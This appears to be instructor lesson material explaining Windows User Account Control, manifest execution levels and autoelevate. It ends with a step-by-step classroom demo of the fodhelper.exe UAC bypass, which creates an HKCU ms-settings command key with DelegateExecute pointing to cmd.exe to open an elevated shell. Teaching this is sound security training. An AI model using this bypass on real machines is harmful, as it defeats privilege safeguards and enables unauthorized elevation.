

## What is UAC and what does it do

Most Windows installers create a single user account, which is an administrative account, when setting up Windows and then move on. Because of this, most users perform tasks on their Windows machine as an admin, and that allows malware to run as admin. UAC was created to protect users from themselves.

#### Stands for User Account Control

   - UAC limits the privileges of user run applications, even when run as Administrator, to prevent the modification of system files, resources, or settings.

   - Requesting elevated privileges requires explicit, interactive acknowledgement from the user.

   - If the user is in the local administrators group, they can click through the prompt, or if not in the Administrator group, can enter the administrator password to complete the action

   - Registry key is located at `"HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System"`

## What do UAC prompts look like
#### Multiple color-coded consent prompts

   - **Red** - Application or publisher blocked by group policy

   - **Blue & gold** - Administrative application

   - **Blue** - Trusted and Authenticode signed application

   - **Yellow** - Unsigned or signed but not trusted application



## How does UAC know how to act

When an application is run, UAC checks that file’s manifest for instructions

**What is a file Manifest?**

   - A manifest file on Windows holds Metadata and tells Windows how the file should be executed.

#### There are three types of execution levels in a file’s manifest.

   - `asInvoker` - The application will run with the same permissions as the process that started it. The application can be elevated to a higher permission level by selecting Run as Administrator.

       - Ex: `C:\Windows\System32\cmd.exe`

   - `requireAdministrator` - The application will run with administrator permissions. The user who starts the application must be a member of the Administrators group. If the opening process is not running with administrative permissions, the system will prompt for credentials.

   - `highestAvailable` - The application will run with the highest permission level that it can. If the user who starts the application is a member of the Administrators group, this option is the same as requireAdministrator. If the highest available permission level is higher than the level of the opening process, the system will prompt for credentials.

       - Ex: `C:\Windows\regedit.exe`

### Autoelevate setting

   - Some Windows executables can "auto elevate" without a prompt.

   - Files that have "auto elevate" in their permissions will not prompt UAC

## View file manifest settings

The Sysinternals Tool **sigcheck** will allow the viewing of these settings.

**Map the Sysinternals Command in Powershell**
```
PS C:\Users\student> net use * http://live.sysinternals.com
PS C:\Users\student> z:
```
**View the autoelevate setting of slui**
```
PS Z:\> ./sigcheck -m C:\Windows\System32\slui.exe
```
**View the highest available setting of regedit**
```
PS Z:\> ./sigcheck -m C:\windows\regedit.exe
```

**How to locate Windows executables that have autoelevate in the manifest**
```
PS Z:\> ./strings –s c:\windows\system32\*.exe | findstr /i autoelevate
```
## DEMO: Bypass UAC with fodhelper.exe

**What is fodhelper?**

**Fodhelper** - Introduced in Windows 10 to manage optional features like region-specific keyboard settings. `Fodhelper.exe` is located in the `C:\Windows\System32` folder

**Explain how the UAC Bypass fodhelper exploit was found.**

   - Researcher used Procmon to find the registry keys being called that do not exist.

   - Show the registry hives on screen and ask the students which hive can be edited as a non-admin user and ask why this is important to us? (Non-admin users can edit the HKCU keys and manipulate the behavior of the system)

       - `HKCU:\Software\Classes\ms-settings\shell\open\command`

### Demo using Procmon to find registry keys called by autoelevate applications

   - Open Procmon

   - Run fodhelper.exe

   - Stop Capture

   - Create Filter `ProcessName is fodhelper.exe`

   - Create Filter `Operation is RegOpenKey Action Include`

   - Look for `Registry Keys HKCU\software\classes`

   - Look for `Registry Keys HKCU\software\classes\ms-settings\shell\open\command`

**What does this key allow us to do?**
```
PS C:\Users\Student> HKCU:\Software\Classes\ms-settings\shell\open\command
```
   - Enables us to provide to the program additional instructions on what to do when the program opens.

**What does the DelegateExecute string value do?**

   - Tells the program to execute what is in the default value of the registry key. 

**Demo via GUI so students can do Activity via PowerShell and demonstrate command-line knowledge.**

*Look at autoElevate & requestedExecutionLevel*
```
PS C:\Users\Student> ./sigcheck -m C:\windows\system32\fodhelper.exe
```
*Open the registry editor*
```
PS C:\Users\Student> regedit.exe
```
#### Create the key

- Right click on `HKCU:\Software\Classes` and select ***New > Key***

- Name it `ms-settings`

- Then add ***New > Key `shell`***

- Then add ***New > Key `open`***

- Then add ***New > Key `command`***

#### Create the String Value

Right click in the whitespace on the right side of pane Create New > String Value `DelegateExecute`

#### Right Click on **(Default)** String value

Add `C:\windows\system32\cmd.exe`

*From command-line execute*
```
C:\windows\system32\fodhelper.exe
```
NOTE:A new window will pop up with Administrator privileges
